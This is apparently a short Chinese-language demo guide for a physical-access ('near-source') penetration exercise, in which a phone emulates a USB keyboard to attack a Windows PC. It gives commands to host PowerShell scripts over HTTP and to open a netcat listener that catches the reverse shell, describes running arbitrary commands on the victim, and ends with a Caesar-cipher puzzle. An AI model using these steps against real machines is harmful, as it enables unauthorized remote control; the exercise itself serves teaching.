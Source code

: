 ## 近源渗透体验
服务器配置
```python
#打开python服务器来访问ps脚本
cd /opt/shell;sudo python -m http.server 82

#监听本地端口
sudo nc -lvnp 80

```

客户端
电脑打开就行



### 游玩指南
俩台电脑,一台手机
手机负责执行hid attack攻击
一台linux服务器,用来接收shell
一台window,用来当被攻击机器

- 手机连接到电脑usb接口上,作为一个hid attack攻击设备
- linux监听本地端口,在命令行输入`sudo nc -lvnp 80`![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230912235031.png)
*监听成功标志*

- 单击设备上的preview,点击右上角三角符号开始攻击


- 等待攻击完成即可执行任意命令
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230912235341.png)

*攻击成功标志*


部分命令指南

| 命令                            | 结果                                             | 举例 |
| ------------------------------- | ------------------------------------------------ | ---- |
| echo "\<content\>" > ~/\<name\> | 在对方桌面新建一个\<name\>文件,内容为\<content\> | echo "i am hacker" >~/Desktop/haha.txt     |
|                                 |                                                  |      |





## 密码破解
凯撒密码  密文:synt{jrypbzr_gb_ajh}

